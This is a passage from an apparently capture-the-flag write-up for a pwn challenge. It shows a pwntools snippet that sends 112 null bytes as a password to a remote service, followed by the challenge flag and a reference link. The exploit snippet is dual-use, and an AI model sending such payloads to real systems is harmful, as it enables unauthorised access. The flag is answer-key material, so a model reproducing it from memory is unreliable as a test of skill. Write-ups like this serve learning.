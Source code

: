```python
io.sendlineafter(b"Enter password: ", b"\x00"*0x70) # 112 Bytes.

print(io.recvall(timeout=1))

# Close the remote connection.
io.close()
```
{% endcode %}

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

### 2.3. Flag

pearl{f1l3\_d3script0rs\_4r3\_c00l}

***

## References

* [https://ptr-yudai.hatenablog.com/entry/2021/04/08/115245](https://ptr-yudai.hatenablog.com/entry/2021/04/08/115245)

***

**Tags**: #ctf, #pwn
